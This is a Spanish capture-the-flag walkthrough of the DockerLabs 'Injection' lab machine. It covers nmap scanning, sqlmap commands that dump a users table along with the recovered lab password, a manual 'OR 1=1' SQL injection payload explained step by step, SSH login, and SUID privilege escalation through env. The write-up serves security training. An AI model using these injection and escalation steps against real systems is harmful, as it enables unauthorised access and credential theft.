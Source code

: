plataforma: https://dockerlabs.es/#/<br>
Mirror: https://mega.nz/file/wLN2nQ7B#p0YzUFAsrE3ilnJ9HzMr1hfsUq2DPYiDHlIU_9IEizU<br>
Nombre: Injection<br>
Dificultad: muy fácil<br>
Creador: El pingüino de Mario<br>
Herramientas:
 - Ping
 - NMAP
 - WhatWeb
 - SQLMAP
 - Puerto 22 SSH - SFTP



Cacptura Máquina:<br>
![image](https://github.com/borazuwarah/CTFs-ByBorazuwarah/blob/main/CTFs-By%20borazuwarah/DockerLabs/Injection/Images/DockerLabs%20-%20Injection%20-%20Machine.png)

Deploy:

```sh fold:"Deploy injection machine"
sudo bash autodeploy.sh injection.tar
```


Ping para comprobar conectividad y ver el ttl: 64<br>
![image](https://github.com/borazuwarah/CTFs-ByBorazuwarah/blob/main/CTFs-By%20borazuwarah/DockerLabs/Injection/Images/DockerLabs%20-%20Injection%20-%20Ping.png)

Reconocimiento
```sh fold:"Reconocimiento con nmap"
sudo nmap -sS -p- -sC -sV -Pn 172.17.0.2
```

Puertos abiertos:<br>
![image](https://github.com/borazuwarah/CTFs-ByBorazuwarah/blob/main/CTFs-By%20borazuwarah/DockerLabs/Injection/Images/DockerLabs%20-%20Injection%20-%20Nmap.png)

Nos encontramos los puertos 
- 22
- 80
Primero investigamos el puerto 80
Web:<br>
![image](https://github.com/borazuwarah/CTFs-ByBorazuwarah/blob/main/CTFs-By%20borazuwarah/DockerLabs/Injection/Images/DockerLabs%20-%20Injection%20-%20Web.png)

WhatWeb no nos da mucha información<br>
![image](https://github.com/borazuwarah/CTFs-ByBorazuwarah/blob/main/CTFs-By%20borazuwarah/DockerLabs/Injection/Images/DockerLabs%20-%20Injection%20-%20Whatweb.png)

Intento varios Usuarios y contraseñas pero conm ninguno acccedo, en todos me da el mensaje:
Wrong Credentials

Vamos a ver algo más sobre eta web


Vamos a ver si con SqlMap podemos sacar algo:

```sh fold:"Sql map"
sqlmap -u http://172.17.0.2/index.php --forms --dbs --batch
# information_schema
# mysql
# performance_schema
# regyster
# sys
sqlmap -u http://172.17.0.2/index.php --forms -D --tables --batch
# [1 table]
# +-------+
# | users |
# +-------+
sqlmap -u http://172.17.0.2/index.php --forms -D -T users --columns --batch
# +----------+-------------+
# | Column   | Type        |
# +----------+-------------+
# | passwd   | varchar(30) |
# | username | varchar(30) |
# +----------+-------------+
sqlmap -u http://172.17.0.2/index.php --forms -D -T users -C passwd,username --dump --batch
# +------------------+----------+
# | passwd           | username |
# +------------------+----------+
# | KJSDFG789FGSDF78 | dylan    |
# +------------------+----------+

```
Otra forma de hacer el Sql Injection:<br>
![image](https://github.com/borazuwarah/CTFs-ByBorazuwarah/blob/main/CTFs-By%20borazuwarah/DockerLabs/Injection/Images/DockerLabs%20-%20Injection%20-%20SQL%20Injection%20manual.png)

Explicacion:
Ahora bien, suponiendo que la consulta que busca un usuario en la base de datos es la siguiente:

```sql
SELECT * FROM usuarios WHERE username = 'admin' AND password = 'password';
```

Si insertamos la inyección SQL (`admin' OR 1=1 -- -`) en donde está el texto "admin", la consulta quedará de esta manera:

```sql
SELECT * FROM usuarios WHERE username = 'admin' OR 1=1 -- - AND password = 'password';
```
Esto es posible porque los parámetros de la consulta no están validados:<br>
![image](https://github.com/borazuwarah/CTFs-ByBorazuwarah/blob/main/CTFs-By%20borazuwarah/DockerLabs/Injection/Images/DockerLabs%20-%20Injection%20-%20Codigo%20consulta%20sin%20validar.png)


Acceso con usuario dylan:<br>
![image](https://github.com/borazuwarah/CTFs-ByBorazuwarah/blob/main/CTFs-By%20borazuwarah/DockerLabs/Injection/Images/DockerLabs%20-%20Injection%20-%20User%20access.png)

Vamos a intentar entrar por SSH con este usuario y esta contraseña:

Acceso por ssh con el usuario dylan:<br>
![image](https://github.com/borazuwarah/CTFs-ByBorazuwarah/blob/main/CTFs-By%20borazuwarah/DockerLabs/Injection/Images/DockerLabs%20-%20Injection%20-%20SSH%20dylan%20user.png)


## Escalada de privilegios
sudo -l<br>
![image](https://github.com/borazuwarah/CTFs-ByBorazuwarah/blob/main/CTFs-By%20borazuwarah/DockerLabs/Injection/Images/DockerLabs%20-%20Injection%20-%20sudo-l.png)

find / -perm -4000 2>/dev/null<br>
![image](https://github.com/borazuwarah/CTFs-ByBorazuwarah/blob/main/CTFs-By%20borazuwarah/DockerLabs/Injection/Images/DockerLabs%20-%20Injection%20-%20Suid.png)

Buscamos en Gtfobins algunos de estos suid<br>
![image](https://github.com/borazuwarah/CTFs-ByBorazuwarah/blob/main/CTFs-By%20borazuwarah/DockerLabs/Injection/Images/DockerLabs%20-%20Injection%20-%20gtfobbins%20env.png)
Encuentro env:
lo ejecutamos con las rutas absolutas<br>
![image](https://github.com/borazuwarah/CTFs-ByBorazuwarah/blob/main/CTFs-By%20borazuwarah/DockerLabs/Injection/Images/DockerLabs%20-%20Injection%20-%20Escalada%20de%20privilegiso.png)]

DockerLabs - Injection -
